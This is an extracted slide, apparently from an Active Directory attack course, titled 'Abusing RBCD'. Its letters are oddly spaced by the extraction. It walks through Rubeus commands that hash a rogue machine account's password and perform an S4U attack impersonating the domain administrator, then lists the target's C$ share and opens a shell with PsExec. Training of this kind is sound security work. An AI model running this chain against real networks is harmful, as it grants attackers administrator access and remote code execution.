

# ABUSING RBCD
To	p e r f o r m	t h e	S 4 U ,	w e	n e e d	E v i l - 0 1	h a s h :
. \ R u b e u s . e x e	h a s h	/ p a s s w o r d : P a s s w 0 r d !	/ u s e r : E v i l - 01 $	/ d o m a i n : a l t o . t e l

U s i n g	t h e	h a s h ,	w e	c a n	p e r f o r m	t h e	S 4 U A t t a c k
. \ R u b e u s . e x e	s 4 u	/ u s e r : E v i l - 0 1 $	/ r c 4 : F C 5 2 5 C 9 6 8 3 E 8 F E 0 6 7 0 9 5 B A 2 D D C 9 7 1 8 8 9
/ i m p e r s o n a t e u s e r : a d m i n i s t r a t o r	/ m s d s s p n : c i f s / w e b - 0 1	/ p t t

I f	i t	s u c c e e d e d ,	y o u	s h o u l d	b e	a b l e	t o	p e r f o r m	d i r e c t o r y	l i s t i n g	a n d	m a y b e h a v e	R C E ?
l s	\ \ w e b - 01 \ c$

. \ P s E x e c 6 4 . e x e	\ \ w e b - 0 1	cmd
240